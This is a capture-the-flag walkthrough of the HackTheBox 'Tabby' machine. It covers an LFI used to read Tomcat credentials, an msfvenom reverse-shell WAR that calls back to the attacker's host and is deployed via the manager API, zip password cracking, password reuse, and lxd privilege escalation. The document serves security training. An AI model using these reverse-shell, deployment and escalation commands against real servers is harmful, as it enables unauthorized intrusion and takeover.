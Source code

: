 ```yaml
---
Tags: HackTheBox Easy Linux LFI WAR tomcat cracking-zip-files lxd-privesc  B2R
Alias: Tabby - 10.10.10.194 
---
```


# 10.10.10.194 - Tabby [Easy]

^780615

![attachments/tabby.png](attachments/tabby.png)

***

### Improved skills:
- LFI
- Tomcat WAR exploitation
- Cracking .zip files
- lxd Privilege Escalation

### Used tools:
- nmap
- gobuster
- msfvenom
- LinEnum.sh
- fcrackzip

___


## Introduction & Foothold

**Tabby** is an _easy_ HTB machine focused on the manually exploitation of a **Tomacat** server using a **.WAR** reverse shell and the exploitation of a misconfigured group permission which allow to escalate to root abusing **lxd** rights.

Let's start as always with an **nmap** scan:

```bash
root@kali:~/HackTheBox# nmap -Pn -sCV -p22,80,8080 -oN nmap/Basic_10.10.10.194.nmap 10.10.10.194
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat 9.0.31
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find out that there are three services running on the box, **two of which** are **web servers** (an *Apache httpd 2.4.41* and an *Apache Tomcat 9.0.31*). 

Visiting the first site we discover that the **host** of the box is **_megahosting.htb_**. In order to properly enumerate the box we need to resolve it correctly

`cat "10.10.10.194    megahosting.it" >> /etc/hosts`

Now that we are effectively ready, let's start enumerating every page of the first web server.

![2020-06-22-14-48-13.png](attachments/2020-06-22-14-48-13.png)

After few minutes I found the **_http://megahosting.htb/news.php?file=statement_** page, which results to be vulnerable to **Local File Inclusion** (LFI).

![2020-06-22-14-59-19.png](attachments/2020-06-22-14-59-19.png)

![2020-06-22-14-59-41.png](attachments/2020-06-22-14-59-41.png)

Because we got an LFI vulnerability, the logical next step was to try to exploit it in order to get a Remote Code Execution, but unfortunately none of the existing methods worked... so I decided to start to enumerate the second web server (**tomcat**), looking for another entry point.

```bash

root@kali:~/HackTheBox# gobuster dir -u http://10.10.10.194:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.html,.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.194:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/06/22 16:05:04 Starting gobuster
===============================================================
/index.html (Status: 200)
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
```

Among all the various directories, *__/manager__* immediately caught my attention: trying to logging in, the server reveals which file contains the credentials, allowing us to use the **LFI** to get them.

![2020-06-22-16-11-37.png](attachments/2020-06-22-16-11-37.png)

 Finding ***tomcat-users.xml*** was a pain as the installation of the web server was done *without following standards paths and rules*, however, after a couple of hours I was able to read the file, located in ***/usr/share/tomcat9/etc/tomcat-users.xml***

![2020-06-22-16-45-05.png](attachments/2020-06-22-16-45-05.png)

![2020-06-22-16-45-57.png](attachments/2020-06-22-16-45-57.png)

Good! Now we are able to login into the ***/manager*** directory and proceeds.

Since the tomcat user are assigned the roles of **admin-gui** and **manager-script**, he has the permission to access the *host-manager webapp via web gui* (from which nothing can be done) but also to interact ***via cli with the manager webapp***, which allows us to upload **.war files** to the server (see the [official documentation](https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html)). 

Once we find the way, let's **create our reverse shell** through **msfconsole**

```bash
root@kali:/var/www/html#  msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.18 LPORT=9876 -f war > maoutis.war
Payload size: 1095 bytes
Final size of war file: 1095 bytes

root@kali:/var/www/html# ls -al maoutis.war 
-rw-r--r-- 1 root root 1095 Jun 29 19:08 maoutis.war
```

load it on the server

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' -T maoutis.war 'http://10.10.10.194:8080/manager/text/deploy?path=/maoutis'
OK - Deployed application at context path [/maoutis]
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/list
OK - Listed applications for virtual host [localhost]
/:running:0:ROOT
/maoutis:running:0:maoutis
/examples:running:0:/usr/share/tomcat9-examples/examples
/host-manager:running:1:/usr/share/tomcat9-admin/host-manager
/manager:running:0:/usr/share/tomcat9-admin/manager
/docs:running:0:/usr/share/tomcat9-docs/docs
and run it to get access as *tomcat* user.
```

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/maoutis/
```

```bash
root@kali:~# nc -lvp 9876
python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ export TERM=screen
CTRL+Z
root@kali:~/HackTheBox# stty raw -echo
root@kali:~/HackTheBox# fg

tomcat@tabby:/var/lib/tomcat9$ 
```



## Lateral Movement to ash

Once gained the shell, further enumeration reveals that the user of the box is **ash**.

Running **LinEnum.sh** we discovered a **.zip backup file** inside ***/var/www/html/files/*** which require to be cracked in order to be unzipped. Let's use **fcrackzip** in order to crack the archive.

```bash
root@kali:~/HackTheBox/Machine/Tabby/files# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' 16162020_backup.zip 

PASSWORD FOUND!!!!: pw == admin@it
```

Password found! While inside the archive we didn't find anything useful, trying to use the password to switch to **ash** reveals that the same *password has been reused*.

```bash
tomcat@tabby:/var/www/html/files$ su ash                                                                             
Password: admin@it                                                                                                           
ash@tabby:/var/www/html/files$ 
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Well done! We are ash!



## Privilege Escalation

Running again **LinEnum.sh** it reveals that we are members of the **lxd group** and that exists a way to ***abuse this permission*** in order *to became root*.
Searching on Google I found [this](https://www.hackingarticles.in/lxd-privilege-escalation/) article, which describes how an account on the system that is a member of the lxd group is able to escalate the root privilege by exploiting the features of LXD.

1. **Download** the **lxd-alpine-builder** locally on the kali machine and built it as root

```bash
$git clone https://github.com/saghul/lxd-alpine-builder.git
$cd lxd-alpine-builder
$sudo bash build-alpine
```

    Probably will appear errors like *"tar: Ignoring unknow ... "*. Don't worry and continue     with the privilege escalation process.

2. **Upload** the **.tar** file on the **ash home** directory and **import** it **inside lxc**

![2020-06-29-23-27-45.png](attachments/2020-06-29-23-27-45.png)

Once finished, we will be root!



## Trophy

> If you can't give me poetry, can't you give me poetical science?  
> \- Ada Lovelace



## License

Author: 0x*bro*
<a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">
<img alt="Creative Commons Licence" style="border-width:0" src="https://i.creativecommons.org/l/by-nc/4.0/88x31.png" /></a>
This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc/4.0/">Creative Commons Attribution-NonCommercial 4.0 International License</a>.